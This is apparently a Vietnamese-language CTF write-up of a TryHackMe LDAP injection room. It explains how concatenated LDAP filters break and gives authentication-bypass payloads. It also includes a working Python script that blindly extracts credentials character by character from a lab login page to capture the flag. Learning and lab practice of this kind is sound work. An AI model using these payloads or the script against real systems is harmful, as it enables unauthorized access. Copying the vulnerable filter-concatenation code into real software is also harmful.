 ## LDAP Injection 
- LDAP Injection (Lightweight Directory Access Protocol Injection) là một lỗ hổng bảo mật xảy ra khi một ứng dụng web không kiểm soát chặt chẽ dữ liệu đầu vào của người dùng trước khi đưa vào truy vấn LDAP. Điều này cho phép kẻ tấn công thao túng truy vấn LDAP để truy xuất, sửa đổi hoặc xóa dữ liệu trong thư mục LDAP.
- Cấu trúc của LDAP:

![alt text](image.png)


## Payload

- LDAP thường được sử dụng để quản lý thông tin người dùng, chẳng hạn như hệ thống xác thực (authentication) và phân quyền (authorization). Truy vấn LDAP có thể giống như sau:
    ```bash
    (&(uid=admin)(password=123456))
    ```

    - & đảm bảo rằng cả hai điều kiện đều phải đúng.
    - uid=admin là kiểm tra tên người dùng.
    - password=123456 là kiểm tra mật khẩu
- Giả sử một ứng dụng web có mã như sau để xác thực người dùng:
    ```bash
    String filter = "(&(uid=" + username + ")(password=" + password + "))";
    ```
    - Nếu người dùng nhập:
    ```bash
    Username: *)(&)
    Password: ...
    ```
    - Truy vấn LDAP trở thành:
    ```bash
    (& (uid=*) (&) (password=anything))
    ```
    → `uid=*` nghĩa là lấy tất cả người dùng.
    → `(&)` là một điều kiện hợp lệ.

- Điều này có thể dẫn đến việc ứng dụng cấp quyền truy cập trái phép vì điều kiện luôn đúng.

## Exploit

- Bypass LDAP injection 
    ```text
    Normal 
    1. username=*passwd=*
    2. username=F*passwd=*
    Blind
    3. username=*)(|(&passwd=pwd)
    ```

- Exploit code bypass LDAP
    ```python
    import requests
    from bs4 import BeautifulSoup
    import string
    import time

    # Base URL
    url = 'http://10.10.167.23/blind.php'

    # Define the character set
    char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

    # Initialize variables
    successful_response_found = True
    successful_chars = ''

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    while successful_response_found:
        successful_response_found = False

        for char in char_set:
            #print(f"Trying password character: {char}")

            # Adjust data to target the password field
            data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

            # Send POST request with headers
            response = requests.post(url, data=data, headers=headers)

            # Parse HTML content
            soup = BeautifulSoup(response.content, 'html.parser')

            # Adjust success criteria as needed
            paragraphs = soup.find_all('p', style='color: green;')

            if paragraphs:
                successful_response_found = True
                successful_chars += char
                print(f"Successful character found: {char}")
                break

            if not successful_response_found:
                print("No successful character found in this iteration.")

            print(f"Final successful payload: {successful_chars}")
    ```
- Payload thành công

![alt text](image-1.png)

- Login và lấy flag

![alt text](image-2.png)

## Tham khảo thêm tại
- [Tryhackme](https://tryhackme.com/room/ldapinjection)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md)